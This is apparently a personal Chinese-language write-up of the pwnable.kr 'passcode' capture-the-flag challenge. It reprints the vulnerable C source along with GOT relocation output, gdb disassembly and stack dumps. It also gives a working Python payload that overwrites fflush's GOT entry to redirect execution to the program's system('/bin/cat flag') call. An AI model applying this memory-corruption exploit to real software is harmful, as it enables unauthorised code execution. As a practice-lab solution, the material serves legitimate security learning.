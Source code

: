 ```yaml
---
layout: default
title: pwnable_passout_code
parent: pentrue-test
nav_order: 2
---
```


# pwnable 'pass'code

Source :
- [pwnable.kr](http://pwnable.kr/play.php)
- [gcc stack protection](https://www.ibm.com/developerworks/cn/linux/l-cn-gccstack/)
- [gcc stack protection2](https://kknews.cc/zh-tw/tech/38m3eo3.html)
- [linux got](http://blog.csdn.net/linyt/article/details/51635768)
- [linux got](http://www.freebuf.com/articles/system/135685.html)
---
## 程式原始碼
``` c
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```
---
## solution
### 查got表
```
passcode@ubuntu:~$ readelf  -r passcode

Relocation section '.rel.dyn' at offset 0x388 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a02c  00000b05 R_386_COPY        0804a02c   stdin@GLIBC_2.0
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
##使用這個位址
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```
### disas login
- 查完之後會發現scanf前的地址-0x10(%ebp) 剛好在'a'*96的後四位...
```gdb
gef➤  x/x $ebp -0x10
0xffffcff8:	0x0804a010
```
- 將位址替換成fflush
- scanf %d 0x080485e3(134514147),此處使很關鍵的地方表示fflush會被替換成
```0x080485e3 <+127>:	movl   $0x80487af,(%esp)```
- '\n' 應該表示是字串結尾
```
0xffffcff0:	0x61616161	0x61616161	0x0804a010	0x4ff54700
0xffffd000:	0x08048800	0xffffd0c4	0xffffd018	0x080486e0
0xffffd010:	0xf7fb23dc	0xffffd030	0x00000000	0xf7e18637
0xffffd020:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7e18637
0xffffd030:	0x00000001	0xffffd0c4	0xffffd0cc	0x00000000
0xffffd040:	0x00000000	0x00000000	0xf7fb2000	0xf7ffdc04
0xffffd050:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd060:	0x00000000	0xab31c77d	0x979a496d	0x00000000
```
``` gdb
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
##調用system
## 0x080485e3 <+127>:	movl   $0x80487af,(%esp)
## 0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
```
``` python
print int("0x080485e3", 0)
134514147
python -c "print ('a'*96+'\x04\xa0\x04\x08'+'\n'+'134514147\n')" | ./passcode
 ```
 ### localtest
 ```gdb
     0x80485bc <login+33>       call   0x8048480 <__isoc99_scanf@plt>
    0x80485c1 <login+38>       add    esp, 0x10
    0x80485c4 <login+41>       mov    eax, ds:0x804a040
    0x80485c9 <login+46>       sub    esp, 0xc
    0x80485cc <login+49>       push   eax
 →  0x80485cd <login+50>       call   0x8048420 <fflush@plt> ＃call 0x080485e3
   ↳   0x8048420 <fflush@plt+0>   jmp    DWORD PTR ds:0x804a010
       0x8048426 <fflush@plt+6>   push   0x8
       0x804842b <fflush@plt+11>  jmp    0x8048400
       0x8048430 <__stack_chk_fail@plt+0> jmp    DWORD PTR ds:0x804a014
       0x8048436 <__stack_chk_fail@plt+6> push   0x10
       0x804843b <__stack_chk_fail@plt+11> jmp    0x8048400
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "passcode", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x80485cd → Name: login()
[#1] 0x80486e0 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  n
[New process 25845]
process 25845 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "login" not defined.
[New process 25846]
process 25846 is executing new program: /bin/cat
lfagqqqqqq!!!!\n
[Inferior 3 (process 25846) exited normally]
enter passcode1 : Now I can safely trust you that you have credential :)
[*] No debugging session active
gef➤  

 ```